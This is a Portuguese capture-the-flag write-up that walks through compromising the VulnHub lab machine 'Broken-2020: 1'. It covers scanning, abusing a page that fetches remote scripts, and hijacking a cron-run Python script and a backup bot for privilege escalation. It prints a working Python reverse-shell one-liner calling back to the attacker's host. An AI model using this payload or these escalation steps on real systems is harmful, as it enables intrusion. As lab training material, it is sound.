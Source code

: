 ## Broken-2020: 1

- Link para download: https://www.vulnhub.com/entry/broken-2020-1,470/

1) Máquina importada no VirtualBox, executo o _arp-scan_ para ver o endereço IP:
```
root@parrot:~# arp-scan --interface=eth0 192.168.56.0/24
Interface: eth0, type: EN10MB, MAC: 08:00:27:79:a6:a0, IPv4: 192.168.56.105
Starting arp-scan 1.9.7 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.56.1    0a:00:27:00:00:00       (Unknown: locally administered)
192.168.56.100  08:00:27:7c:9f:5d       PCS Systemtechnik GmbH
192.168.56.104  08:00:27:3d:f6:30       PCS Systemtechnik GmbH

7 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.9.7: 256 hosts scanned in 1.975 seconds (129.62 hosts/sec). 3 responded
```
Está rodando no endereço de final **104**.

2) Rodo o _nmap_ para verificar as portas e serviços:
```
root@parrot:~# nmap -p- -sV -sC -T5 -A -oN nmap_broken 192.168.56.104
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-15 14:22 -03
Nmap scan report for broken (192.168.56.104)
Host is up (0.00046s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 7e:f3:33:8c:be:0c:ed:d7:0e:c6:67:cc:73:bf:c0:ab (RSA)
|   256 ee:ed:74:02:0d:3f:7d:6d:45:aa:ff:f3:3a:d0:1a:d9 (ECDSA)
|_  256 d1:18:a9:ef:7f:b6:c8:a9:30:52:c8:e6:b6:ec:64:80 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: hacked
MAC Address: 08:00:27:3D:F6:30 (Oracle VirtualBox virtual NIC)
Aggressive OS guesses: Linux 2.6.32 (96%), Linux 3.2 - 4.9 (96%), Linux 2.6.32 - 3.10 (96%), Linux 3.4 - 3.10 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), Synology DiskStation Manager 5.2-5644 (94%), Netgear RAIDiator 4.2.28 (94%), Linux 2.6.32 - 2.6.35 (94%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.46 ms broken (192.168.56.104)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.70 seconds
```

Duas portas comuns em CTF's, 22 rodando ssh e a 80 um serviço web. De pronto identifico que é uma versão bem recente do _OpenSSH_, não lembro de ter lido nada a respeito de nenhuma falha relevante de segurança, parto para o serviço web.

3) Com o intuito de identificar as URL's que estão executando sob o Apache, executo o _gobuster_:
```
root@parrot:~# gobuster dir -u http://192.168.56.104 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o gobuster_broken
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://192.168.56.104
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/08/15 14:26:36 Starting gobuster
===============================================================
/images (Status: 301)
/cms (Status: 301)
/fonts (Status: 301)
/server-status (Status: 403)
===============================================================
2020/08/15 14:27:49 Finished
```
Checo o que está respondendo no contexto _/cms_. Tem um botão, eu clico e... Curioso testo uma possível abertura para **Path Traversal** (https://owasp.org/www-community/attacks/Path_Traversal) ou **Command Injection** (https://owasp.org/www-community/attacks/Command_Injection) e recebo a primeira flag (nada mais interessante por aqui).

4) Executo novamente o gobuster a partir de _/cms_:
```
root@parrot:~# gobuster dir -u http://192.168.56.104/cms -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o gobuster_broken_cms
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://192.168.56.104/cms
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/08/15 14:30:30 Starting gobuster
===============================================================
/cc (Status: 301)
===============================================================
2020/08/15 14:31:34 Finished
===============================================================
```
Checando o novo contexto me deparo com a seguinte página:

![imagem](https://raw.githubusercontent.com/ridlaw/capturetheflag/gh-pages/pics/execucao_de_comando_broken.png) 

Hum, será que podemos hackear qualquer servidor passando IP/porta? Vamos testar, executo um listener via netcat, coloco meu endereço IP e a porta que estou executando e clico em 'hack':
```
root@parrot:~# nc -nlvp 31337
listening on [any] 31337 ...
connect to [192.168.56.105] from (UNKNOWN) [192.168.56.104] 50500
GET /5eeea87977793dc143b995f6a104d62d.sh HTTP/1.0
Host: 192.168.56.105:31337
Connection: close
```
Interessante, ele tentou um GET no meu endereço buscando esse .sh. Bom, o que podemos fazer? Vamos reproduzir o que ele busca, crio um '5eeea87977793dc143b995f6a104d62d.sh' com um shell reverso:
```
root@parrot:/tmp/broken# cat 5eeea87977793dc143b995f6a104d62d.sh
#!/bin/bash

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.56.105",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
Subo um servidor web via python para ele buscar o .sh e mantenho um listener netcat com a porta que adicionei na linha do shell reverso. Clico novamente em 'hack' e:
```
root@parrot:~# nc -nlvp 1337
listening on [any] 1337 ...
connect to [192.168.56.105] from (UNKNOWN) [192.168.56.104] 59902
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ pwd
/var/www/html/cms/cc
```
Estou dentro! Agora vamos continuar caçando.

5) Vou ao /home e encontro o diretório da alice, lá consigo mais uma flag. Lá também tem uma nota com o seguinte conteúdo:
```
Alice,

Please do not install TrustMeCMS, I need check the source before

PS: I created a script to clear apache log during the tests

root
```
Ok senhor root, obrigado pela informação.

6) Ainda na home da alice tem um diretório chamado 'script', dentro dele um script em python e um .log, interessante.

7) Rodo o linpeas.sh e não vejo nada de interessante na saída, ao executar o pspy64 para checar se existe algo agendado, eis que:
```
2020/08/15 00:08:01 CMD: UID=0    PID=23585  | /bin/sh -c sudo -u alice python /home/alice/script/log.py
2020/08/15 00:08:01 CMD: UID=0    PID=23587  | sudo -u alice python /home/alice/script/log.py
```
Bom, acho que a partir daí vou escalar os meus privilégios.

8) Para a minha surpresa ao voltar ao diretório 'script' tenho permissão de gravação, bom, vou substituir o arquivo log.py pelo MEU log.py :)

9) Faço a substituição com o mesmo script que utilizei como shell reverso (organizado com os imports e as outras linhas ordenadas), configuro novamente um listener via netcat e aguardo o agendamento:
```
$ whoami
whoami
alice
```
Ótimo, agora sou a alice rsrs.

10) Agora tenho permissão de acesso a um diretório que antes não conseguia acessar, o 'backup'. A, e tem outra flag lá.

11) Em mais uma nota do senhor root ele diz o seguinte:
```
Alice we have been hacked !

Please put the path of the website backup directory in path.txt, my bot will do the rest

thx

root
```
Agora te peguei! Adiciono o /root no path.txt e pouco tempo depois tenho o diretório do root no backup, lá dentro tem a última flag:
```
Congratulation for the root flag !

     _________
    / ======= \
   / __________\
  | ___________ |
  | | -root-  | |
  | |         | |
  | |_________| |_____________________________________________________________________
  \=____________/                     enjoyed this VM ?                               )
  / """"""""""" \                     I love bitcoin                                 /
 / ::::::::::::: \           1Ba6vFEamUenzrXr4scGQ8QLya7t7zYZ1S                  =D-'
(_________________)
```

Bem divertido, obrigado `EuSecuinfo` pela box.
